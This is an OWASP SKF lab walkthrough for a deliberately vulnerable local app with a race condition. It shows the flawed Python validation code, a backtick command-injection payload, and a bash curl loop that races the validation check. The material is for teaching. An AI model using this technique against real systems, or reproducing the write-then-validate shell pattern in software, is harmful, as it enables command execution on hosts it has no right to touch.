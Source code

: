 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/3.png)

### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1.  `boot_validate(person)`

    the function receives the username in input and executes the following:

    - deletes `"` and `\` from the username
    - opens `hello.sh` file
    - writes a command in it&#x20;
    - closes the file
    - logs some useful info&#x20;
    - checks if the username is in the format `[A-Za-z0-9 ]*`
    - returns the username if the regex succedes

2.  `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)
3.  `boot_run()` executes the `hello.sh` file
4.  `boot_reset()` resets the system to the default settings

### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `boot_validate(person)`

```
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `boot_run()` function

```
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python
def boot_validate(person):
    #person = person.replace('"',"").replace("\\","")
    bootfile = open("hello.sh","w")
    bootfile.write("echo \"" + person + "\" > hello.txt")
    bootfile.close()

    os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
    valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
    os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")

    return valid
```

{% hint style="success" %}

```
 Everything works fine, so where is the problem?
```

{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/4.png)

{% hint style="success" %}
Congratulations, you won the race for real now!!!!!!!!
{% endhint %}

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}

